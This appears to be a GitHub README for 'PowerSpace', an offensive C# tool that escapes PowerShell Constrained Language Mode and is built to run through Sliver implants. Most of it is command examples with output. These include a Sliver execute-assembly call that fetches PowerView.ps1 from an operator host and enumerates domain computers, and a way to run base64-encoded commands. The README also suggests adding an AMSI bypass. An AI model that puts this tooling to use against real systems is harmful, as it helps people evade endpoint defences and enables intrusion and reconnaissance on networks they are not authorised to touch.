 # PowerSpace
Simple `C#` .Net Framework program that use `RunspaceFactory` for PowerShell from `System.Management.Automation.dll` in order to execute anything as `FullLanguage`.

## Key Features
- Executes PowerShell commands and scripts in `FullLanguage` mode using `RunspaceFactory`.
- Parses and executes commands, Base64-encoded commands, and scripts fetched from URLs.
- Verbose output to aid in debugging and crafting complex queries.
- Suitable for integration with implant frameworks like Sliver.

Below is an example of running `powerspace` through a PowerShell Constrained Language Mode (CLM):
```powershell
PS C:\Users\win\Desktop\Dev> .\powerspace.exe /c:"$ExecutionContext.SessionState.LanguageMode" 
[+] Received arguments: /c:$ExecutionContext.SessionState.LanguageMode

[+] Parsed Arguments:
/c       $ExecutionContext.SessionState.LanguageMode
/e       null
/m       null

[+] Executing: $ExecutionContext.SessionState.LanguageMode

-------- Runspace Output --------

FullLanguage

-------- Runspace Output --------
```

> [!IMPORTANT]
> There is no AMSI bypass or patch integrated. Add your own or find your way.

## Beacon / Implant Integration
This tool is particularly built with the mindset of running through an implant as an assembly, leveraging the inherent design of `C#` binaries:
```shell
sliver (ENORMOUS_FISHBONE) > execute-assembly -i -M -E /home/kali/backpack/d/powerspace.exe /m:"http://192.168.45.202/winaries/pwsh/PowerView.ps1" /c:"Get-DomainComputer -Properties DnsHostName | sort -Property DnsHostName"

[*] Output:
[+] Received arguments: /m:http://192.168.45.202/winaries/pwsh/PowerView.ps1 /c:Get-DomainComputer -Properties DnsHostName | sort -Property DnsHostName

[+] Parsed Arguments:
/c       Get-DomainComputer -Properties DnsHostName | sort -Property DnsHostName
/e       null
/m       http://192.168.45.202/winaries/pwsh/PowerView.ps1

[+] Executing: http://192.168.45.202/winaries/pwsh/PowerView.ps1
[i] No output
[+] Executing: Get-DomainComputer -Properties DnsHostName | sort -Property DnsHostName

-------- Runspace Output --------

dnshostname
-----------
client.test.lab
dc.test.lab
mail.test.lab
sql.test.lab

-------- Runspace Output --------
```

### Sliver
This repository aims to facilitate the [`sliver`](https://github.com/bishopfox/sliver) implementation. You can directly copy the content of the named `sliver` directory:
```shell
cp -r ~/git/perso/powerspace/sliver ~/.sliver-client/aliases/powerspace
```

## Examples
### Running multiple commands

```powershell
PS C:\Users\win\Desktop\Dev> .\powerspace.exe /c:"whoami" /c:"hostname"
[+] Parsed Arguments:
/c       whoami
/c       hostname
/e       null
/m       null

[+] Executing: whoami

-------- Runspace Output --------

wind\win

-------- Runspace Output --------

[+] Executing: hostname

-------- Runspace Output --------

WinD

-------- Runspace Output --------
```

### Running UTF-16LE base64-encoded commands
Use [CyberChef](https://gchq.github.io/CyberChef/#recipe=Encode_text('UTF-16LE%20(1200)')To_Base64('A-Za-z0-9%252B/%253D'))  to encode you commands:

```powershell
PS C:\Users\win\Desktop\Dev> .\powerspace.exe /e:"dwBoAG8AYQBtAGkA"
[+] Received arguments: /e:dwBoAG8AYQBtAGkA

[+] Parsed Arguments:
/c       null
/e       dwBoAG8AYQBtAGkA
/m       null

[+] Executing: whoami

-------- Runspace Output --------

wind\win

-------- Runspace Output --------
```

## Implementation Choices
I chose to create a simple command parser instead of using the `CommandLine` package to avoid the complexity of integrating `dnMerge` for compilation. The primary goal was to maintain ease of use. For the arguments, I implemented Windows-style parsing with the `/` convention to avoid conflicts with other tools, such as sliver.